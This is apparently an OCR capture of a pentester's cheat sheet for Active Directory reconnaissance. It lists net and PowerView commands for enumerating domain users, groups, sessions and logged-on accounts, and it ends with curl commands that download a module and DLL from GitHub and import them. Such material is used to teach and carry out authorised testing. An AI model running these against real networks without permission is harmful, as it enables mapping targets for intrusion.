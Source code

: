 ## Enumeration

### Enumerating Users

  Enumerate all users in the entire domain
```cmd
net user /domain
```

  Get information from a specific user
```cmd
net user <user> /domain
```

  Enumerate logged users
```powershell
# powerview 
Get-NetLoggedon -ComputerName <computer_name>
```

  Enumerate all active sessions
```powershell
# powerview
Get-NetSession -ComputerName dc1
```

### Enumerating Groups

  Enumerate all groups in the entire domain
```cmd
net group /domain
```

  Get members of local group
```powershell
Get-NetLocalGroup -ComputerName <domain> -Recurse (PowerView)
```

### Domain Information

  Find out domain controller hostname
```powershell
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

### [PowerView Module](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

 Configure ActiveDirectory Module - RSAT
```cmd
curl https://raw.githubusercontent.com/samratashok/ADModule/master/ActiveDirectory/ActiveDirectory.psd1 -o ActiveDirectory.psd1  
curl https://github.com/samratashok/ADModule/blob/master/Microsoft.ActiveDirectory.Management.dll?raw=true -o Microsoft.ActiveDirectory.Management.dll  
Import-Module .\Microsoft.ActiveDirectory.Management.dll  
Import-Module .\ActiveDirectory.psd1  
```
